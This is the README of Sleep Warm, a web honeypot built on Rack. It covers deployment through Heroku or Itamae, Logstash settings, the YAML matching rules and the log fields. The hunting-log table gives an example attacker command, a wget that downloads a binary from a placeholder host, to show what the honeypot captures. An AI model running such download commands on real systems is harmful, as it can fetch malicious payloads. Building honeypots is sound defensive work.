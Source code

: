 # Sleep Warm

[![Build Status](https://travis-ci.org/ninoseki/sleep_warm.svg?branch=master)](https://travis-ci.org/ninoseki/sleep_warm)
[![Maintainability](https://api.codeclimate.com/v1/badges/46dcae2391a2a7f5dcb5/maintainability)](https://codeclimate.com/github/ninoseki/sleep_warm/maintainability)
[![Coverage Status](https://coveralls.io/repos/github/ninoseki/sleep_warm/badge.svg?branch=master)](https://coveralls.io/github/ninoseki/sleep_warm?branch=master)

A web-based low-interaction honeypot build on [Rack](https://github.com/rack/rack). This honeypot is highly inspired by [WOWHoneypot](https://github.com/morihisa/WOWHoneypot).

## Concepts

- Easy to install.
  - One-click deploy to Heroku or just execute [Itamae](http://itamae.kitchen/) scripts.
- Easy to customize.
  - Matching rules and default responses are customizable via editing YAML files.
- Well tested.

## Supported

- Ubuntu 16.04 LTS and Ruby 2.5.

## Installation

### Prerequirement

You will need an Elasticsearch instance for log analysis because Sleep Warm can only deal with Logstash logging.

### Deploy on Heroku

You can deploy Sleep Warm on Heroku by clicking the button below and follow the instructions.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy)

### Deploy by Itamae

You can automatically deploy Sleep Warm on Ubuntu by using [Itamae](http://itamae.kitchen/).

You will need Ruby 2.5 & Itamae for the auto deployment.

```sh
$ git clone https://github.com/ninoseki/sleep_warm.git
$ cd sleep_warm
# install Sleep Warm
$ itamae ssh -h HOST -u USER cookbooks/sleep_warm/default.rb
# install ufw and its settings for the Sleep Warm
$ itamae ssh -h HOST -u USER cookbooks/sleep_warm/ufw.rb
```

And then the honeypot works as `sleep-warm.service` on `80/tcp` and `9292/tcp`.

After the deployment, please set you Elasticsearch settings in `/opt/sleep-warm/.env` and restart the service. (By default, Sleep Warm outputs Logstash log to STDOUT.)

```
# Do not change this
RACK_ENV=production
# The hostname which Logstash sends the data for
LOGSTASH_HOST=localhost
# The port which Logstash sends the data for
LOGSTASH_PORT=9300
# (Optional) The token which Logstash send the data with.
LOGSTASH_TOKEN=YOUR_TOKEN
```

## Matching rules

Matching rules are stored in `/opt/sleep-warm/app/rules` as YAML files.

The rule file format:

```yaml
---
meta:
  id: 1001
  enable: true
  note: hoge
trigger:
  method: GET
  uri: hoge
  header: hoge
  body: hoge
response:
  status: 200
  header:
    Server: Apache/2.0.48
    Content-Type: text/html
  body: hoge
```

The rule mataches a request which  HTTP method is `GET` and request URI contains `hoge` and header contains `hoge` and body contains `hoge`.

## Log

Sleep Warm outputs 2 types of logs.

### Access log

- Access log to the honeypot.

| key          | desc.                       | e.g.                    |
|:-------------|:----------------------------|:------------------------|
| client_ip    | Client IP                   | `10.0.2.2`              |
| hostname     | Hostname                    | `localhost:9292`        |
| method       | HTTP method                 | `GET`                   |
| uri          | Request URI                 | `http://localhost:9292` |
| http_version | HTTP version                | `HTTP/1.1`              |
| status       | Status code                 | `200`                   |
| rule_id      | Matched rule id             | `1001`                  |
| all          | Base64 encoded HTTP request | -                       |

### Hunting log

- Hunting log to the honeypot.

| key       | desc.                                    | e.g.                               |
|:----------|:-----------------------------------------|:-----------------------------------|
| client_ip | Client IP                                | `10.0.2.2`                         |
| commands  | Commands which try to download something | `wget http://example.com/hoge.bin` |


